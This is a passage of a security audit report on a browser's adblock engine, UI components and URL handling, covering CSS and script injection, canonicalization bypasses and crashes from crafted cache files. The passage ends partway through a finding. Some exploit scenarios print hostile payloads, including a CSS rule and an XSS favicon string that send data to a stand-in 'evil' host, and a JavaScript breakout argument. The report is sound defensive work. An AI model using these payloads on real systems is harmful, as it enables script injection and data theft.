| **Location** | crates/privacy/adblock-rust/src/filters/cosmetic.rs:643-658; crates/privacy/adblock/Cargo.toml:9; crates/privacy/adblock/src/lib.rs:441-450 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-79 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:L/A:N` = 7.6 HIGH |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-001` |

**Description.** The vendored adblock engine ships a compile-time CSS validation gate, but the browser's wrapper crate (azokle-adblock) enables only 'embedded-domain-resolver', 'full-regex-handling' and 'content-blocking' - the 'css-validation' feature is enabled solely in the npm/JS build. With the feature off, validate_css_selector() returns Ok() for any string and is_valid_css_style() unconditionally returns true. The validated selectors are then concatenated verbatim into an injected stylesheet ("{selector} {{ display: none !important; }}") that is handed to the rendering engine through the cosmetic-CSS FFI surface. Any party that controls filter-list content therefore controls CSS executed on every matching page.

**Code evidence**

```rust
// cosmetic.rs (feature OFF build used by the browser)
#[cfg(not(feature = "css-validation"))]
pub fn is_valid_css_style(_style: &str) -> bool { true }

// azokle-adblock Cargo.toml
adblock = { path = "../adblock-rust", default-features = false,
  features = ["embedded-domain-resolver", "full-regex-handling", "content-blocking"] }

// lib.rs:448 - unvalidated join into injected CSS
format!("{} {{ display: none !important; }}", selectors.join(", "))
```

**Exploit scenario.** A hostile or compromised filter-list source publishes a hide-rule whose final character is not '}' (defeating the naive style-injection path): example.com##x} *{background:url(//evil?c=1)!important} .y{. The raw string passes the no-op validator, joins into the injected stylesheet, breaks out of the wrapper block and applies arbitrary CSS on every page matching example.com - enabling attribute-selector-based exfiltration channels and full UI redressing. Because the stylesheet is injected by the privileged browser, the page cannot prevent it.

**Remediation.** Enable 'css-validation' in azokle-adblock's feature list so the cssparser-based selector/style validation is active, and add defense-in-depth in get_cosmetic_css(): reject any selector containing '{', '}', or a top-level url( token before joining. Mirror the brace-rejecting validation already used by crates/security.

---

<a id="azk-f-002"></a>
### `AZK-F-002` — [MEDIUM 6.2] Stale duplicate UI package (components/) reintroduces the exact XSS sinks the 36-finding fix removed

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | components/bookmarks/BookmarksBar.ts:51-59; components/tor/TorCircuitModal.ts:31,61,82-86; components/omnibox/Omnibar.ts:456 | **Component** | Browser Chrome (TypeScript) |
| **CWE** | CWE-79 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:L/A:N` = 6.2 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-002` |

**Description.** The remediation commit for the 36 prior audit findings (cffca87) fixed the XSS sinks in ui/src/components/* but never touched the byte-identical legacy copies in the root components/ package, which is exported as a standalone module (main: index.ts) intended for reuse by other shells. The stale copies still interpolate page-controlled favicon URLs directly into an innerHTML img src attribute, render native securityHost and Tor circuit hop fields without escaping, and inject item.icon/item.type unescaped in the omnibox. The shipped desktop bundle currently uses the fixed ui/src copies, so the bug is latent - but the repo state contradicts the 'all 36 findings fixed' claim and is one import away from regression.

**Code evidence**

```ts
// components/bookmarks/BookmarksBar.ts:51-59
const isUrl = b.favicon && (b.favicon.startsWith('http') ||
    b.favicon.startsWith('data:') || b.favicon.startsWith('/'));
const iconContent = isUrl
  ? ``
  : `<span class="bookmark-emoji">${b.favicon || '★'}</span>`;
btn.innerHTML = `<span class="bookmark-icon-box">${iconContent}</span>
  <span class="bookmark-label">${this.escapeHtml(b.title)}</span>`;
```

**Exploit scenario.** A page-controlled favicon string such as https://evil.com/x.png" onerror="fetch('//evil/'+document.title) breaks out of the src attribute inside btn.innerHTML in the privileged chrome document, executing script in the browser UI origin. The same package renders TorCircuitModal hop.name/country/ip and securityHost raw, so a poisoned security-state-changed event reaches markup execution in the modal. Exploitation requires the root package to be consumed (it exists precisely to be consumed), or any future deduplication that copies the wrong direction.

**Remediation.** Delete components/ and re-export the fixed implementations from ui/src/components, or port the fixes: construct favicon &lt;img&gt; elements via createElement with an http/https/data:image/ protocol allowlist, and route rawHost/hop.name/hop.country/hop.ip/item.type/item.icon through escapeHtml(). Add a CI check that hash-compares duplicate component files and fails when they diverge.

---

<a id="azk-f-003"></a>
### `AZK-F-003` — [LOW 3.9] ScriptletEngine stores and returns arbitrary JavaScript keyed by unvalidated domain strings

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/security/src/scriptlets.rs:38-64; crates/security/src/lib.rs:57-64 | **Component** | Security Core (Rust) |
| **CWE** | CWE-94 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:C/C:L/I:L/A:N` = 3.9 LOW |
| **Confidence** | POSSIBLE | **Tracking ID** | `AZK-F-003` |

**Description.** The first-party ScriptletEngine accepts any non-empty (domain, script_content) pair via register_scriptlet() and get_scriptlet_for_domain() returns the stored string verbatim to FFI consumers (azokle_core_get_scriptlets and the Kotlin/UniFFI bindings). There is no hostname grammar validation on keys, no cap on entry cardinality or content size, and no escaping layer anywhere downstream. Production callers do not yet feed filter-derived content into this API, which keeps the issue latent; however the first integration that passes list-controlled or web-controlled text will execute it in every matching page.

**Code evidence**

```rust
pub fn register_scriptlet(&self, domain: &str, script_content: &str) {
    // only non-empty checks
    self.scriptlets.write().insert(domain.to_string(), script_content.to_string());
}
pub fn get_scriptlet_for_domain(&self, domain: &str) -> Option<String> {
    self.scriptlets.read().get(domain).cloned()
}
```

**Exploit scenario.** Once a caller registers script_content sourced from a filter list or from a page (e.g. a scriptlet argument parsed out of a rule), the payload is returned raw through the FFI bridge and injected into pages whose host matches the unvalidated key - a single quote/backtick in list data breaks out of any injection wrapper and becomes arbitrary in-page script execution.

**Remediation.** Validate domain keys against the DNS hostname grammar, cap map cardinality and per-entry content size, and either document the trusted-source contract with an assertion or require a distribution-side signature digest for registered scriptlets.

---

<a id="azk-f-004"></a>
### `AZK-F-004` — [LOW 3.9] Template-style scriptlet arguments substituted without quote-context escaping

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/resources/resource_storage.rs:384-390,506-521 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-94 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:L/I:L/A:N` = 3.9 LOW |
| **Confidence** | POSSIBLE | **Tracking ID** | `AZK-F-004` |

**Description.** Function-style scriptlet resources JSON-escape their arguments before insertion, but legacy {{1}}-template resources receive stringify_arg() output inserted without surrounding quotes or context-aware escaping. A filter rule can therefore close the surrounding string context inside a template body and inject arbitrary JavaScript. Upstream-compatible behavior keeps this class alive whenever any shipped template uses {{1}} inside a quoted string.

**Code evidence**

```rust
Ok(patch_template_scriptlet(
    template,
    args.iter().map(|arg| stringify_arg::<false>(arg)),  // escaped for JSON, not for JS-string context
))
```

**Exploit scenario.** A hostile list rule referencing a template resource with an argument like '));evil();// breaks out of the template's quoted placeholder during substitution; the resulting scriptlet is injected into every matching page with attacker-chosen code at the break-out point.

**Remediation.** Prefer function-style resources exclusively; where templates must remain, annotate each placeholder with its expected literal type and escape for that context (string-literal escaping with \' and \\).

---

<a id="ch-6"></a>
## 6. Input Validation and Canonicalization

Canonicalization findings arise wherever two components disagree about what a URL, hostname or parameter means. The pattern that dominates this codebase is a fork-introduced divergence: the vendored engine's hand-rolled URL parser interprets URLs differently from the browser it protects, and every such divergence converts directly into a filter bypass. The same class captures silently inert filter semantics, a missing percent-encoder in the omnibox pipeline, and blocklist matching that succeeds against the wrong byte sequence. This chapter documents 9 findings (0 HIGH, 4 MEDIUM).

<a id="azk-f-005"></a>
### `AZK-F-005` — [MEDIUM 4.8] Fork-introduced URL parser retains tab/LF/CR characters, causing host confusion and filter bypass

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/url_parser/parser.rs:307,425-536 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-177 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 4.8 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-005` |

**Description.** The fork replaced upstream rust-url with a hand-rolled parser and deliberately disabled the WHATWG tab/newline stripping step: Input::next() returns self.chars.next() with the find(!matches!(tab|LF|CR)) filter commented out. parse_host() counts ignored characters in its scan but its encode loop consumes them differently, producing hostnames that desynchronize from what a conforming browser connects to. Concretely, https://ex&lt;tab&gt;ample.com/ yields hostname "ex&lt;tab&gt;ample.com"; userinfo/host desyncs such as https://a&lt;tab&gt;&lt;tab&gt;b@evil.com/ produce hostname "vil.com"; and https://a@b&lt;tab&gt;&lt;tab&gt;c/ truncates the host to "b". Any filter anchored by hostname (||example.com^, $domain=) silently fails to match.

**Code evidence**

```rust
impl Iterator for Input<'_> {
    type Item = char;
    fn next(&mut self) -> Option<char> {
        self.chars.next() //by_ref().find(|&c| !matches!(c, '\t' | '\n' | '\r'))
    }   //                       ^^^^^ upstream filter disabled in this fork
}
```

**Exploit scenario.** An attacker link such as https://ex%09ample.com/ (or a page that constructs the request URL with a raw tab) reaches Request::new without pre-normalization in embedder APIs; the engine computes a hostname containing the tab while the browser connects to example.com - every blocking rule for that host is bypassed while the user still reaches the tracker.

**Remediation.** Restore the upstream filter in Input::next() (or strip \t\n\r once in parse_url) and re-derive count_matching/parse_host on the filtered stream; add regression tests replicating the three desync cases above.

---

<a id="azk-f-006"></a>
### `AZK-F-006` — [MEDIUM 4.8] Host never lowercased for special schemes: uppercase-hostname URLs bypass all hostname-anchored filters

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/url_parser/parser.rs:480-536 vs 389-393 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-178 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 4.8 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-006` |

**Description.** parse_host() writes ASCII hosts verbatim into the serialization buffer; only the non-special path lowercases. Upstream rust-url runs every special-scheme host through IDNA, which lowercases; this fork does not. Filter hostnames are always lowercase (decode_hostname applies IDNA), and is_anchored_by_hostname() performs a case-sensitive memmem, so a request URL carrying any uppercase character in its host fails every ||host^ and $domain= rule. source_hostname_hashes hash the original-case host, so allowlists/denylists keyed by hash also miss.

**Code evidence**

```rust
// parse_host - special schemes
if host_str.is_ascii() {
    write!(&mut self.serialization, "{host_str}").unwrap();  // no make_ascii_lowercase(), no IDNA
}
```

**Exploit scenario.** A page loads https://TRACKER.example/px.js (a single uppercase character suffices). The engine computes hostname "TRACKER.example"; all hostname-anchored and domain-restricted rules miss; only URL-substring filters survive. The request sails through the 'Aggressive' shield undetected.

**Remediation.** Apply make_ascii_lowercase() (or full IDNA to_ascii) to the host in parse_host() before serialization, matching WHATWG behavior; add a case-bypass regression test asserting check_network_request blocks https://TRACKER.example/px.js against ||tracker.example^.

---

<a id="azk-f-007"></a>
### `AZK-F-007` — [MEDIUM 5.0] Search engine URL builder performs no percent-encoding: omnibox input injects query parameters, fragments and delimiters

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/services/search/src/lib.rs:96-99 (urlencoding_simple); used at 57-92 | **Component** | Search Service (Rust) |
| **CWE** | CWE-172 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N` = 5.0 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-007` |

**Description.** The omnibox query-to-URL encoder replaces only spaces with '+'; every other reserved character (?, &amp;, #, %, =, :) passes through raw. User-typed input is therefore concatenated into the search/bang URL as trusted URL structure rather than as an opaque value. A crafted omnibox entry can inject additional query parameters into the search or bang endpoints, override tracking parameters, or terminate the query with a fragment. The function name claims encoding that does not happen, which invites misuse elsewhere.

**Code evidence**

```rust
fn urlencoding_simple(s: &str) -> String {
    s.replace(' ', "+")   // that is all: no percent-encoding whatsoever
}
// e.g. resolve_bang("!gh x&ref=evil#y") ->
//   "https://github.com/search?q=x&ref=evil#y"
```

**Exploit scenario.** A user pastes (or a malicious page offers as a suggested query) the text 'rust jobs&amp;utm_campaign=evil' with a !g bang; the resulting google.com URL contains attacker-controlled query structure. On the first-party search.azokle.com endpoint the injected parameters flow into its API unsanitized. The same gap lets a fragment (#) terminate the query so trailing text is interpreted as URL structure.

**Remediation.** Replace the helper with form_urlencoded::byte_serialize (already used in crates/tor/src/lib.rs:347) or urlencoding::encode, which percent-encode all reserved characters; add unit tests asserting &amp;, #, ?, %, = are encoded in every bang and search URL.

---

<a id="azk-f-008"></a>
### `AZK-F-008` — [LOW 3.7] Safe Browsing blocklist bypass via trailing-dot FQDN and IDN homographs

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios/Azokle Browser/Security/SafeBrowsingGuard.swift:57-94 | **Component** | iOS App (Swift) |
| **CWE** | CWE-178 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-008` |

**Description.** The Safe Browsing guard matches hosts with exact dictionary lookups and hasSuffix(".\(knownHost)") without any canonicalization step. URL(string:) preserves a trailing dot, so the fully-qualified form of every blocked host (paypal-security-verification.com.) matches nothing and navigates with no warning overlay. There is likewise no punycode/IDN handling, so Cyrillic or mixed-script homographs of protected brands pass untouched. The shipped list is a 10-entry static table, which caps practical impact today, but the matching logic is the foundation a real feed would sit on.

**Code evidence**

```swift
if host.hasSuffix(".\(knownHost)") { return true }   // + exact dict lookup
// host "paypal-security-verification.com." matches neither
// no IDNA / xn-- conversion anywhere in the guard
```

**Exploit scenario.** A phishing campaign registers paypal-security-verification.com. (trailing dot resolves identically in DNS) or a homoglyph domain; users receive no block overlay because the guard's string comparisons never match, defeating the feature exactly when it matters.

**Remediation.** Canonicalize the host before all matching: strip one trailing dot, convert unicode hosts via host.percentEncoded/IDNA to the xn-- form (or reject non-ASCII), lowercase, then run the suffix and exact-match logic; apply the same canonicalization to the blocklist entries.

---

<a id="azk-f-009"></a>
### `AZK-F-009` — [LOW 4.1] Query-parameter stripper misses fragment tracking, over-matches hosts by substring, and re-serializes every URL

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/tracker-block/src/query_stripper.rs:148-185 | **Component** | Tracker Blocking (Rust) |
| **CWE** | CWE-20 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:L/A:N` = 4.1 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-009` |

**Description.** strip_tracking_params() filters only parsed.query_pairs(); the fragment component is never inspected, so fragment-carried identifiers such as #utm_source=... or #__twitter_impression survive stripping. Host special-casing uses host.contains("youtube.com"), which strips si/ref_src parameters from lookalike hosts such as not-youtube.com (over-stripping that can break those sites' navigation). Finally the query is rebuilt with form_urlencoded::Serializer even when nothing changed, normalizing ';' separators, duplicate keys and exotic encodings on every top-level navigation - a functional mutation risk applied browser-wide.

**Code evidence**

```rust
let is_youtube = host.contains("youtube.com");   // substring, not suffix
// ...only query_pairs() filtered; fragment untouched
let result = form_urlencoded::Serializer::new(String::new())
    .extend_pairs(kept).finish();                 // re-encodes even no-op rewrites
```

**Exploit scenario.** A tracker decorates links with https://site.com/page#utm_source=x; the stripper returns the URL unchanged and the cross-site identifier persists. Conversely a user visiting not-youtube.com loses functionally significant 'si' parameters because the host check substring-matches.

**Remediation.** Strip tracking parameters from the percent-decoded fragment as well; switch host matching to host == domain || host.ends_with("." + domain); and return the original URL string unchanged when no parameter was removed.

---

<a id="azk-f-010"></a>
### `AZK-F-010` — [LOW 4.2] Tracker database ingests unvalidated list lines: one 'com' line flags every .com host

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/tracker-block/src/tracker_db.rs:135-153,180-196 | **Component** | Tracker Blocking (Rust) |
| **CWE** | CWE-20 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:L/A:L` = 4.2 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-010` |

**Description.** The tracker list loader trims each line, strips '||' prefixes and '^'/'/' suffixes, and inserts whatever remains into the known-tracker set without any hostname validation - bare TLD labels ('com', 'net'), wildcards ('*'), or malformed tokens are accepted verbatim. is_tracker_domain() then walks every parent label of the visited host, so a single 'com' entry makes effectively every .com domain classify as a tracker. Because blocking decisions and privacy statistics key off this classification, a poisoned or simply careless list corrupts blocking behavior browser-wide. (No SQL is present here - the earlier SQL-injection hypothesis does not apply; the store is in-memory sets.)

**Code evidence**

```rust
let host = trimmed.trim_start_matches("||")
    .trim_end_matches('^').trim_end_matches('/');
if !host.is_empty() {
    self.known_tracker_domains.insert(host);   // "com" accepted as-is
}
```

**Exploit scenario.** A compromised or typo-laden tracker list containing the line 'com' flips is_tracker_domain() to true for every .com site; downstream shielding, counters and label decisions degrade in one refresh, and users' per-site statistics become meaningless.

**Remediation.** Validate entries as DNS hostnames before insertion: require at least one dot, reject bare TLDs and characters outside [a-z0-9.-], and reject lines containing '*' or '/' after normalization.

---

<a id="azk-f-011"></a>
### `AZK-F-011` — [MEDIUM 5.3] Filter options $method and $to are silently inert: rules authored with them never match any request

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock/src/lib.rs:314; crates/privacy/adblock-rust/src/filters/fb_network_builder.rs:260-264 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-697 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N` = 5.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-011` |

**Description.** The browser-side request bridge hardcodes the HTTP method: Request::new(&amp;clean_url, src, rtype, "get") regardless of the actual request, and the engine's builder silently drops any filter carrying a $to option ('parsed but ignored ... if filter.has_to_option() { return; }'). The combined effect is that $method=post block rules never fire and $to-scoped rules vanish without warning. List authors have no way to discover the gap, and a filter-list supplier can use the silent drop to pass traffic the list claims to protect against.

**Code evidence**

```rust
// adblock/src/lib.rs:314 - method hardcoded
let request = adblock::request::Request::new(&clean_url, src, rtype, "get");
// fb_network_builder.rs:260 - $to filters silently discarded
if filter.has_to_option() { return; }
```

**Exploit scenario.** A tracking endpoint that receives its beacon via POST is protected by a list rule scoped $method=post; because every request is presented as GET, the rule never matches and the beacon loads. The failure is invisible to list maintainers and to the user's shield counters.

**Remediation.** Thread the real HTTP method through check_network_request (extend the port API), and either implement $to or loudly reject such filters at load time with a surfaced warning count.

---

<a id="azk-f-012"></a>
### `AZK-F-012` — [LOW 3.1] URL parser keeps default ports and accepts WHATWG-invalid hosts, drifting from browser canonicalization

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/url_parser/parser.rs:495,409-421 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-177 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N` = 3.1 LOW |
| **Confidence** | LIKELY | **Tracking ID** | `AZK-F-012` |

**Description.** The fork parser does not strip default ports per scheme (https://example.com:443/x keeps ':443' in the serialized URL), and accepts bracket-less IPv6 fragments such as https://[::1/x as literal hostnames. Upstream normalization in the real browser strips these forms, so the engine and the renderer interpret the same URL differently. Filters anchored immediately after the host (||example.com/x, |https://...) or relying on canonical port forms fail against the un-normalized variants. Empty hosts silently produce requests with has_host()==false that are dropped from evaluation.

**Code evidence**

```rust
':' if !inside_square_brackets => break,   // port captured, never stripped when default
// after_double_slash pushes remainder verbatim; "[::1" accepted as host
```

**Exploit scenario.** A tracker URL deliberately written as https://tracker.example:443/p.js evades ||tracker.example/p.js rules (serialization retains the port), producing normalization-divergent matching between the engine and the browser.

**Remediation.** Strip scheme-default ports during host parsing and reject (or canonicalize) bracket-less IPv6 and empty hosts, aligning serialization with the WHATWG URL Standard.

---

<a id="azk-f-013"></a>
### `AZK-F-013` — [INFO 2.0] Sovereign whitelist inconsistencies: apex challenge domains missed; Rust core diverges from extension list

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/common/src/lib.rs:167-176; extensions/azokle-shield/background.js:154-169 | **Component** | Common (Rust) |
| **CWE** | CWE-183 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:L` = 2.0 INFO |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-013` |

**Description.** The Rust SovereignWhitelist matches .hcaptcha.com/.recaptcha.net/.cloudflareinsights.com only via ends_with('.' + domain) but never the apex domains themselves, so hcaptcha.com (apex) is not whitelisted while www.hcaptcha.com is. The extension's isSovereignInfrastructure() uses a different, broader list including substring matching (see AZK-F-033), so the two enforcement layers disagree about which challenge traffic is exempt. Inconsistent security-critical allowlists across layers are a standing source of bypass-by-concatenation bugs and make future changes error-prone.

**Code evidence**

```rust
let clean = host.trim_end_matches('.').to_lowercase();
clean == "azokle.com" || clean.ends_with(".azokle.com")
    || clean == "cloudflare.com" || clean.ends_with(".cloudflare.com")
    || clean.ends_with(".cloudflareinsights.com")   // apex cloudflareinsights.com missed
    || clean.ends_with(".hcaptcha.com")             // apex hcaptcha.com missed
```

**Exploit scenario.** A challenge flow served from the apex hcaptcha.com is filtered by the Rust core while the same flow on challenges.hcaptcha.com is exempt - inconsistent breakage that pushes users to disable shields.

**Remediation.** Define a single shared canonical allowlist (one function, one source of truth) that matches exact apex plus subdomains, and consume it from both the Rust core and the extension via code generation.

---

<a id="ch-7"></a>
## 7. Memory Safety and Denial of Service

Memory-safety and availability findings here share one delivery vehicle: the serialized engine cache (.dat) restored at cold start through a non-cryptographic checksum. The flatbuffer verifier validates structure but not the semantic invariants the container code assumes, and release builds compile with `panic="abort"`, converting every reachable panic — and every FFI `catch_unwind` barrier the documentation promises — into a whole-process abort. Individually these rate MEDIUM; as a cluster they constitute the audit's most practical attacker primitive. This chapter documents 10 findings (0 HIGH, 6 MEDIUM).

<a id="azk-f-014"></a>
### `AZK-F-014` — [MEDIUM 5.5] Flatbuffer key/value length mismatch enables out-of-bounds read in filter map views

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/flatbuffers/containers/flat_multimap.rs:27-48,76-83; flat_map.rs:24,39-44 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-125 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:H` = 5.5 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-014` |

**Description.** The custom flat-map views pair two flatbuffer vectors (keys and values) and only enforce keys.len() == values.len() with a debug_assert!, which vanishes in release builds. The flatbuffer verifier validates each vector independently, so a serialized engine (.dat) whose filter_map_values vector is shorter than filter_map_index passes structural verification. On the first matching request, FlatMultiMapView::get() indexes into the shorter values vector; flatbuffers' Vector::get() is itself debug_assert-only in release and follows the attacker-chosen offset, producing an in-buffer type-confused read followed by a ForwardsUOffset dereference of an arbitrary u32 - memory corruption class behavior, or a slice panic that aborts the process under panic=abort.

**Code evidence**

```rust
debug_assert!(keys.len() == values.len());   // release: gone
// get():
if index < self.keys.len() && ... {
    Some(self.values.get(index))             // values may be shorter -> OOB follow
}
```

**Exploit scenario.** An attacker who can influence the serialized engine cache (local write, tampered sync, or a supply-chain substitution of the .dat - its checksum is non-keyed, see AZK-F-018) ships an engine with mismatched vectors; the next page load performs the OOB read. With the 10 MB response cap irrelevant here, the crash is deterministic per request.

**Remediation.** Promote the invariant to a runtime check in FlatMapView/FlatMultiMapView constructors (return an error or clamp), or add a combined verifier that checks key/value pairing at deserialize time.

---

<a id="azk-f-015"></a>
### `AZK-F-015` — [MEDIUM 4.7] Hash-index probe loop can spin forever on a full table and underflows on zero-capacity input

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/flatbuffers/containers/hash_index.rs:41-57,79-92,164-166 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-835 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:H` = 4.7 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-015` |

**Description.** find_slot() probes with triangular stepping ((slot + step) &amp; table_mask, step += 1) which visits every slot of a power-of-two table, and the loop has no iteration bound; capacity() is simply indexes.len() with no invariant that at least one slot is empty. A crafted .dat whose hash table is entirely non-empty makes the first HashSetView::contains()/HashMapView::get() call probe forever - a permanent CPU hang of the calling thread (UI or network thread of the browser). A zero-length keys vector (flatbuffer-valid) additionally triggers table_size - 1 underflow, indexing an empty vector. The same file mixes runtime assert_eq! (panic) with the OOB-prone debug_assert pattern used by flat_map.

**Code evidence**

```rust
let table_mask = table_size - 1;            // len-0 vector -> underflow
loop {
    if probe(slot) { return slot; }
    slot = (slot + step) & table_mask;
    step += 1;                               // unbounded: full table -> infinite loop
}
```

**Exploit scenario.** A tampered engine cache containing a saturated simple_class_rules hash table hangs the browser the first time a page's cosmetic-filter lookup touches it; restart repeats the hang (crash-loop/brick until the cache file is deleted manually).

**Remediation.** In get_single() require capacity() &gt; 0 and bound the probe to at most capacity() iterations before returning None; verify the empty-slot invariant at deserialize time and reject violating tables.

---

<a id="azk-f-016"></a>
### `AZK-F-016` — [MEDIUM 5.5] network_rules vector indexed by fixed ids 0-7 without a length check

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/blocker.rs:102-111; network_matchers.rs:204,246,286,323,357 | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-125 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:H` = 5.5 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-016` |

**Description.** Every request evaluation fetches filter lists by fixed NetworkFilterListId (0-7) via network_rules().get(id as usize), but the flatbuffer verifier only checks that network_rules is a well-formed vector - not that its length is at least NetworkFilterListId::Size (8). A crafted .dat with a one-element vector therefore passes verification and every check_network_request() call performs an unchecked Vector::get() beyond the vector end. Additionally, hostname-anchored filters lacking a hostname field reach unreachable!() sites in network_matchers.rs, converting the same tampered-cache primitive into a guaranteed abort under panic=abort.

**Code evidence**

```rust
// blocker.rs:102-111
self.filter_data_context.memory.root().network_rules().get(id as usize)
// verifier checks vector validity only - not len() == NetworkFilterListId::Size
```

**Exploit scenario.** A hostile .dat with a truncated network_rules vector turns every navigation into an OOB read (or abort); the browser becomes unusable until the cache is removed - a persistent DoS primitive delivered by a single local/tampered file.

**Remediation.** Check network_rules().len() &gt;= NetworkFilterListId::Size as usize in VerifiedFlatbufferMemory::from_raw (erroring out otherwise) and replace the unreachable!() sites in network_matchers.rs with a defensive filter skip + counter.

---

<a id="azk-f-017"></a>
### `AZK-F-017` — [MEDIUM 4.7] Regex manager slices pattern[1..len-1] trusting flatbuffer mask bits: slice panic on crafted engine cache

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/regex_manager.rs:199-205; fb_network_filter_generated.rs (mask handling) | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-617 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:H` = 4.7 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-017` |

**Description.** compile_regex() strips surrounding slashes with filter_str[1..filter_str.len()-1]; the text-parsing path guards this (network.rs:712 requires pattern.len() &gt; 1), but the flatbuffer deserialization path reconstructs filters with NetworkFilterMask::from_bits_retain(filter.mask()) and blindly trusts the stored IS_REGEX|IS_COMPLETE_REGEX bits. A .dat declaring a one-character complete regex ('/') with the mask bits set reaches the slice on the first token match, computing &amp;"/"[1..0] - a panic. Under the workspace-wide panic=abort this aborts the whole browser process. (The regex crate itself is linear-time; no ReDoS exists here.)

**Code evidence**

```rust
// regex_manager.rs:199-205
let unescaped = filter_str[1..filter_str.len() - 1]
    .replace("\\/", "/") ...;   // crafted .dat with mask IS_COMPLETE_REGEX, pattern "/" -> panic
```

**Exploit scenario.** A tampered .dat containing NetworkFilter{mask: IS_REGEX|IS_COMPLETE_REGEX, single_pattern: "/"} panics the engine thread on first match - repeated per navigation, bricking the browser until the cache file is deleted.

**Remediation.** Guard filter_str.len() &gt;= 2 and only strip when the string actually starts/ends with '/', plus validate mask/pattern consistency at deserialize time (reject impossible bit/shape combinations).

---

<a id="azk-f-018"></a>
### `AZK-F-018` — [LOW 4.4] Serialized engine cache (.dat) integrity check is a non-keyed seahash: trivially recomputed by an attacker

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/src/data_format/mod.rs:46-81; crates/privacy/adblock/src/lib.rs (deserialize_from_dat) | **Component** | Adblock Engine (Rust) |
| **CWE** | CWE-345 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:H` = 4.4 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-018` |

**Description.** The cold-start cache stores a seahash::hash(data) alongside the payload and treats equality as integrity. Seahash is a non-cryptographic, non-keyed hash: an attacker who can write or substitute the cache file recomputes it in one line and ships any structurally-valid flatbuffer payload. This single entry point (exposed through the C FFI deserialize_from_dat and JNI equivalents) is the delivery vehicle for the entire crafted-.dat finding cluster (AZK-F-014/015/016/017/019/022). The check defends against corruption only - it provides zero authenticity.

**Code evidence**

```rust
